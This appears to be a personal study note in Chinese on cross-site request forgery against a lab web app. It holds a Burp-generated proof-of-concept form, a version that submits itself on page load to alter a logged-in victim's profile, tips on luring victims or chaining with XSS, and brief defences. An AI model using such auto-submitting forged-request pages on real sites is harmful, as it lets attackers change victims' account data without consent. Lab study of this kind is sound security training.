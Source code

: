 # CSRF漏洞

受害者离开但还是登录状态时，诱导受害者点击带有csrf poc的网页。


截包
![[Pasted image 20211207162210.png]]

右键Engagement tools -> Generate csrf poc


```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.50.42/06/vul/csrf/csrfget/csrf_get_edit.php">
      <input type="hidden" name="sex" value="mmmmmmmmmmmmmmm" />
      <input type="hidden" name="phonenum" value="aaaa" />
      <input type="hidden" name="add" value="aaa" />
      <input type="hidden" name="email" value="aaa" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

改造一下：受害者点到了就被修改信息：

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.50.42/06/vul/csrf/csrfget/csrf_get_edit.php">
      <input type="hidden" name="sex" value="aaaaa" />
      <input type="hidden" name="phonenum" value="aaaaa" />
      <input type="hidden" name="add" value="ffffffffff" />
      <input type="hidden" name="email" value="pppppp@qqqqqqqppp" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
    <script type="text/javascript">
      window.onload = function(){
        const element = document.querySelector('input[type="submit"]')
        element.click()
      }
    </script>
  </body>
</html>

```


利用方法：
1. 受害者登录状态下诱导点击带有csrf POC的网址。
2. 找到xss注入点 结合xss注入漏洞访问带有csrf POC的网址。



防御方法：

1. 加csrf token
2. 设置session过期时间
3. 限制更改信息请求header处的referrer



